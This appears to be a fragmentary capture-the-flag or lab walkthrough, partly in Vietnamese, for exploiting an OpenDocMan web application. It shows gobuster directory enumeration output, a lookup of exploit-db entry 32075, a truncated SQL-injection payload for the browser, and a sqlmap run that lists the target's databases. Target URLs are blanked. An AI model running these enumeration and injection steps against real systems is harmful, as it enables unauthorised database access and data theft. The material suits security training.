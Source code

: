 gobuster dir -u  -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

===============================================================

Gobuster v3.1.0

by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)

===============================================================

[+] Url:

[+] Method:                  GET

[+] Threads:                 10

[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

[+] Negative Status codes:   404

[+] User Agent:              gobuster/3.1.0

[+] Timeout:                 10s

===============================================================

2022/08/03 22:40:28 Starting gobuster in directory enumeration mode

===============================================================

/javascript           (Status: 301) [Size: 316] [--> ]

/server-status        (Status: 403) [Size: 292]

===============================================================

2022/08/03 22:41:40 Finished

===============================================================

gg khai thác opendocman, sau đó dùng searchsploit để tìm cách khai thác

cat /usr/share/exploitdb/exploits/php/webapps/32075.txt

dán payload vào browser:

ersion%28%29,3,4,5,6,7,8,9

thành:

Dùng sqlmap để khai thác

sqlmap -u "" -p add_value --dbs

-p: parameter

add_value: paramater mẫu để test

[22:56:02] [INFO] fetching database names

available databases [6]:

[*] drupal7

[*] information_schema
